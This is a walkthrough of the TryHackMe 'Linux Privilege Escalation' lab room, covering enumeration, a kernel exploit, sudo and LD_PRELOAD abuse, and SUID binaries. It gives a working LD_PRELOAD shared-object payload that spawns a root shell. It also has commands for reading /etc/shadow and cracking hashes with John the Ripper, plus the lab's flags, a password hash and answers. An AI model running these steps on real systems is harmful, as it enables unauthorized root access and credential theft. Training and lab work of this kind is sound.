# TryHackMe: Linux Privilege Escalation 

## Task 1: Introduction

Privilege escalation is a journey. There are no silver bullets, and much depends on the specific configuration of the target system. The kernel version, installed applications, supported programming languages, other users' passwords are a few key elements that will affect your road to the root shell.

This room was designed to cover the main privilege escalation vectors and give you a better understanding of the process. This new skill will be an essential part of your arsenal whether you are participating in CTFs, taking certification exams, or working as a penetration tester.

*Answer the questions below*

_Read the above_

No answer needed  

## Task 2: What is privilege escalation?

*What does "privilege escalation" mean?*  

At it's core, Privilege Escalation usually involves going from a lower permission account to a higher permission one. More technically, it's the exploitation of a vulnerability, design flaw, or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.  

*Why is it important?*  

It's rare when performing a real-world penetration test to be able to gain a foothold (initial access) that gives you direct administrative access. Privilege escalation is crucial because it lets you gain system administrator levels of access, which allows you to perform actions such as:

- Resetting passwords  
- Bypassing access controls to compromise protected data  
- Editing software configurations  
- Enabling persistence  
- Changing the privilege of existing (or new) users  
- Execute any administrative command

*Answer the questions below*  
_Read the above_

No answer needed

## Task 3: Enumeration. 

Enumeration is the first step you have to take once you gain access to any system. You may have accessed the system by exploiting a critical vulnerability that resulted in root-level access or just found a way to send commands using a low privileged account. Penetration testing engagements, unlike CTF machines, don't end once you gain access to a specific system or user privilege level. As you will see, enumeration is as important during the post-compromise phase as it is before.  

### hostname 

The hostname command will return the hostname of the lab machine. Although this value can easily be changed or have a relatively meaningless string (e.g. Ubuntu-3487340239), in some cases, it can provide information about the target system’s role within the corporate network (e.g. SQL-PROD-01 for a production SQL server).

### uname -a

Will print system information giving us additional detail about the kernel used by the system. This will be useful when searching for any potential kernel vulnerabilities that could lead to privilege escalation.

### /proc/version

The proc filesystem (procfs) provides information about the target system processes. You will find proc on many different Linux flavours, making it an essential tool to have in your arsenal.   
Looking at /proc/version may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.  

### /etc/issue.  

Systems can also be identified by looking at the /etc/issue file. This file usually contains some information about the operating system but can easily be customized or changed. While on the subject, any file containing system information can be customized or changed. For a clearer understanding of the system, it is always good to look at all of these.   

### ps Command  

The ps command is an effective way to see the running processes on a Linux system. Typing ps on your terminal will show processes for the current shell.

The output of the ps (Process Status) will show the following;

- PID: The process ID (unique to the process)  
- TTY: Terminal type used by the user  
- Time: Amount of CPU time used by the process (this is NOT the time this process has been running for)  
- CMD: The command or executable running (will NOT display any command line parameter)   

The “ps” command provides a few useful options.   

- ps -A: View all running processes  
- ps axjf: View process tree (see the tree formation until ps axjf is run below)  



- ps aux: The aux option will show processes for all users (a), display the user that launched the process (u), and show processes that are not attached to a terminal (x). Looking at the ps aux command output, we can have a better understanding of the system and potential vulnerabilities.

### env 

The env command will show environmental variables.  



The PATH variable may have a compiler or a scripting language (e.g. Python) that could be used to run code on the target system or leveraged for privilege escalation.  

### sudo -l   

The target system may be configured to allow users to run some (or all) commands with root privileges. The sudo -l command can be used to list all commands your user can run using sudo.

### ls  

One of the common commands used in Linux is probably ls.

While looking for potential privilege escalation vectors, please remember to always use the ls command with the -la parameter. The example below shows how the “secret.txt” file can easily be missed using the ls or ls -l commands.



### id 

The id command will provide a general overview of the user’s privilege level and group memberships.

It is worth remembering that the id command can also be used to obtain the same information for another user as seen below.



### /etc/passwd

Reading the /etc/passwd file can be an easy way to discover users on the system.  



While the output can be long and a bit intimidating, it can easily be cut and converted to a useful list for brute-force attacks.  



Remember that this will return all users, some of which are system or service users that would not be very useful. Another approach could be to grep for “home” as real users will most likely have their folders under the “home” directory.



### history 

Looking at earlier commands with the history command can give us some idea about the target system and, albeit rarely, have stored information such as passwords or usernames.

### ifconfig 

The target system may be a pivoting point to another network. The ifconfig command will give us information about the network interfaces of the system. The example below shows the target system has three interfaces (eth0, tun0, and tun1). Our attacking machine can reach the eth0 interface but can not directly access the two other networks.



This can be confirmed using the ip route command to see which network routes exist.



### netstat 

Following an initial check for existing interfaces and network routes, it is worth looking into existing communications. The netstat command can be used with several different options to gather information on existing connections.

- netstat -a: shows all listening ports and established connections.
- netstat -at or netstat -au can also be used to list TCP or UDP protocols respectively.
- netstat -l: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol (below)



netstat -s: list network usage statistics by protocol (below) This can also be used with the -t or -u options to limit the output to a specific protocol.  



netstat -tp: list connections with the service name and PID information.



This can also be used with the -l option to list listening ports (below)  



We can see the “PID/Program name” column is empty as this process is owned by another user   
Below is the same command run with root privileges and reveals this information as 2641/nc (netcat)



netstat -i: Shows interface statistics. We see below that “eth0” and “tun0” are more active than “tun1”  



The netstat usage you will probably see most often in blog posts, write-ups, and courses is netstat -ano which could be broken down as follows;

- -a: Display all sockets
- -n: Do not resolve names
- -o: Display timers



### find command  

Searching the target system for important information and potential privilege escalation vectors can be fruitful. The built-in “find” command is useful and worth keeping in your arsenal. 

Below are some useful examples for the “find” command. 

Find files:

- find . -name flag1.txt: find the file named “flag1.txt” in the current directory
- find /home -name flag1.txt: find the file names “flag1.txt” in the /home directory
- find / -type d -name config: find the directory named config under “/”
- find / -type f -perm 0777: find files with the 777 permissions (files readable, writable, and executable by all users)
- find / -perm a=x: find executable files
- find /home -user frank: find all files for user “frank” under “/home”
- find / -mtime 10: find files that were modified in the last 10 days
- find / -atime 10: find files that were accessed in the last 10 day
- find / -cmin -60: find files changed within the last hour (60 minutes)
- find / -amin -60: find files accesses within the last hour (60 minutes)
- find / -size 50M: find files with a 50 MB size

This command can also be used with (+) and (-) signs to specify a file that is larger or smaller than the given size.



The example above returns files that are larger than 100 MB. It is important to note that the “find” command tends to generate errors which sometimes makes the output hard to read. This is why it would be wise to use the “find” command with “-type f 2>/dev/null” to redirect errors to “/dev/null” and have a cleaner output (below).



Folders and files that can be written to or executed from:

- find / -writable -type d 2>/dev/null : Find world-writeable folders
- find / -perm -222 -type d 2>/dev/null: Find world-writeable folders
- find / -perm -o w -type d 2>/dev/null: Find world-writeable folders

The reason we see three different “find” commands that could potentially lead to the same result can be seen in the manual document. As you can see below, the perm parameter affects the way “find” works.  



find / -perm -o x -type d 2>/dev/null : Find world-executable folders  

Find development tools and supported languages:

- find / -name perl*
- find / -name python*
- find / -name gcc*

Find specific file permissions:  

Below is a short example used to find files that have the SUID bit set. The SUID bit allows the file to run with the privilege level of the account that owns it, rather than the account which runs it. This allows for an interesting privilege escalation path,we will see in more details on task 6. The example below is given to complete the subject on the “find” command.  

find / -perm -u=s -type f 2>/dev/null: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

### General Linux Commands

As we are in the Linux realm, familiarity with Linux commands, in general, will be very useful. Please spend some time getting comfortable with commands such as find, locate, grep, cut, sort, etc..

*Answer the questions below*  

*What is the hostname of the target system?*

**Answer: wade7363**

*What is the Linux kernel version of the target system?*

**Answer: 3.13.0-24-generic**

*What Linux is this?*

**Answer: Ubuntu 14.04 LTS**

*What version of the Python language is installed on the system?*

**Answer: 2.7.6**

*What vulnerability seem to affect the kernel of the target system? (Enter a CVE number)*

https://nvd.nist.gov/vuln/detail/cve-2015-1328

**Answer: CVE-2015-1328**

## Task 4: Automated Enumeration Tools

Several tools can help you save time during the enumeration process. These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.

The target system’s environment will influence the tool you will be able to use. For example, you will not be able to run a tool written in Python if it is not installed on the target system. This is why it would be better to be familiar with a few rather than having a single go-to tool.  

- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- LinEnum: https://github.com/rebootuser/LinEnum
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
- Linux Priv Checker: https://github.com/linted/linuxprivchecker

*Answer the questions below*  
Install and try a few automated enumeration tools on your local Linux distribution  
*No answer needed*  

## Task 5: Privilege Escalation: Kernel Exploits  

Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.

Unless a single vulnerability leads to a root shell, the privilege escalation process will rely on misconfigurations and lax permissions.  

The kernel on Linux systems manages the communication between components such as the memory on the system and applications. This critical function requires the kernel to have specific privileges; thus, a successful exploit will potentially lead to root privileges.  

The Kernel exploit methodology is simple;

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit

Although it looks simple, please remember that a failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of your penetration testing engagement before attempting a kernel exploit. 

**Research sources:**

1. Based on your findings, you can use Google to search for an existing exploit code.  
2. Sources such as https://www.cvedetails.com/(opens in new tab) can also be useful.  
3. Another alternative would be to use a script like LES (Linux Exploit Suggester) but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

**Hints/Notes:**

1. Being too specific about the kernel version when searching for exploits on Google, Exploit-db, or searchsploit
2. Be sure you understand how the exploit code works BEFORE you launch it. Some exploit codes can make changes on the operating system that would make them unsecured in further use or make irreversible changes to the system, creating problems later. Of course, these may not be great concerns within a lab or CTF environment, but these are absolute no-nos during a real penetration testing engagement.
3. Some exploits may require further interaction once they are run. Read all comments and instructions provided with the exploit code.
4. You can transfer the exploit code from your machine to the target system using the SimpleHTTPServer Python module and wget respectively.

*Answer the questions below*

*find and use the appropriate kernel exploit to gain root privileges on the target system.*  

First, we need to gather info about the system 

We see the target kernel's version is 3.13.0-24-generic so we search exploit-db for publicly available kernel exploits compatible with that version  
After identifying a [suitable kernel exploit](https://www.exploit-db.com/exploits/37292) we download its source code to our attacking machine. To transfer it to the target, we start a Python HTTP server in the exploit's directory and use wget on the target to retrieve the file.

Attacker's side:  

Target's side:  

Before running the exploit, we grant it execute permissions, then we compile it using gcc, and execute it:

The output confirms that the exploit was successful: whoami returns root, and id shows uid=0(root). Since the root user has UID 0, we have successfully escalated our privileges.  

**No answer needed**

*What is the content of the flag1.txt file?*  

**Answer: THM-28392872729920**

### Task 6: Privilege Escalation: sudo

The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.  

Any user can check its current situation related to root privileges using the sudo -l command.  

https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.  

**Leverage application functions**

Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server.

In this case, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (-f : specify an alternate ServerConfigFile).  

Loading the /etc/shadow file using this option will result in an error message that includes the first line of the /etc/shadow file.  

**Leverage LD_PRELOAD**

On some systems, you may see the LD_PRELOAD environment option.  

LD_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;  

#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  

void _init() {  
  unsetenv("LD_PRELOAD");  
  setgid(0);  
  setuid(0);  
  system("/bin/bash");  
}

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;  

gcc -fPIC -shared -o shell.so shell.c -nostartfiles  

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.  

We need to run the program by specifying the LD_PRELOAD option, as follows;

sudo LD_PRELOAD=/home/user/ldpreload/shell.so find  

This will result in a shell spawn with root privileges.  

*Answer the questions below*

*How many programs can the user "karen" run on the target system with sudo rights?*

**Answer: 3**

*What is the content of the flag2.txt file?*

**Answer: THM-402028394**

*How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?*

To begin answering this question I googled: nmap +https://gtfobins.github.io/  

The first result on the GTFOBins page is this: 

**Answer: sudo nmap --interactive**

*What is the hash of frank's password?*

From the previous questions, we know we have sudo access to the less command, so we run:  

less /etc/shadow  

**Answer: $6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18796:0:99999:7:::**

## Task 7: SUID bit 

Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.  

You will notice these files have an “s” bit set showing their special permission level.  

find / -type f -perm -04000 -ls 2>/dev/null will list files that have SUID or SGID bits set.  

A good practice would be to compare executables on this list with GTFOBins (https://gtfobins.github.io). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list https://gtfobins.github.io/#+suid).

The list above shows that nano has the SUID bit set. Unfortunately, GTFObins does not provide us with an easy win. Typical to real-life privilege escalation scenarios, we will need to find intermediate steps that will help us leverage whatever minuscule finding we have.  

**Note:** The attached VM has another binary with SUID other than nano.

The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege. Nano is owned by root, which probably means that we can read and edit files at a higher privilege level than our current user has. At this stage, we have two basic options for privilege escalation: reading the /etc/shadow file or adding our user to /etc/passwd.  

Below are simple steps using both vectors.  

reading the /etc/shadow file  

We see that the nano text editor has the SUID bit set by running the find / -type f -perm -04000 -ls 2>/dev/null command.  

nano /etc/shadow will print the contents of the /etc/shadow file. We can now use the unshadow tool to create a file crackable by John the Ripper. To achieve this, unshadow needs both the /etc/shadow and /etc/passwd files.  

The unshadow tool’s usage can be seen below;  
unshadow passwd.txt shadow.txt > passwords.txt  

With the correct wordlist and a little luck, John the Ripper can return one or several passwords in cleartext. For a more detailed room on John the Ripper, you can visit https://tryhackme.com/room/johntheripperbasics.  

The other option would be to add a new user that has root privileges. This would help us circumvent the tedious process of password cracking. Below is an easy way to do it:  

We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux.  

We will then add this password with a username to the /etc/passwd file.  

Once our user is added (please note how root:/bin/bash was used to provide a root shell) we will need to switch to this user and hopefully should have root privileges.  

Now it's your turn to use the skills you were just taught to find a vulnerable binary.  

*Answer the questions below*  

*Which user shares the name of a great comic book writer?*

We inspect the content of the /etc/passwd file  

**Answer: gerryconway**

*What is the password of user2?*

The first thing we're gonna do is create a passwd.txt and shadow.txt file on our attacker machine 

Earlier in this room it was noted to us nano is not the only binary with SUID  
So we run the following command to look for SUID binaries:  
find / -type f -perm -04000 -ls 2>/dev/null  

We can see that base64 has the SUID bit set. We can use it to read the contents of the /etc/shadow file or to manipulate input/output in a way that might allow us to execute commands as root. 

I try running:  base64 /etc/shadow | base64 -d   
and it works: we get the hash for user2  

Plug this line into our password.txt file in the attacker machine  
Then the user2 line from /etc/passwd into our passwd.txt file  

Unshadow it into a single password.txt file, then finally crack it with John the Ripper:

**Answer: Password1**
